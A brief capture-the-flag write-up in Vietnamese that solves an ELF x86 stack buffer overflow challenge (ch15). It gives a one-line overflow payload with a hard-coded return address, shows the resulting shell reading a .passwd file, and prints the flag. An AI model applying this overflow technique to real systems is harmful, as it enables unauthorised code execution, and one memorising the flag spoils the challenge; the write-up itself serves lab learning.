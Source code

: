 # Source

[Source](./ch15.c)

[Binary File](./ch15)

# Solve

- Tương tự với [bài 1](./../ELF%20x86%20-%20Stack%20buffer%20overflow%20basic%201/), bài này sẽ dùng payload tương tự:
`cat <( python2 -c "print 'A'*128 + '\x16\x85\x04\x08'") - | ./ch15`

```bash
app-systeme-ch15@challenge02:~$ cat <( python2 -c "print 'A'*128 + '\x16\x85\x04\x08'") - | ./ch15
ls   
ch15  ch15.c  Makefile
cat .passwd
B33r1sSoG0oD4y0urBr4iN
```

### 🚩Flag: `B33r1sSoG0oD4y0urBr4iN`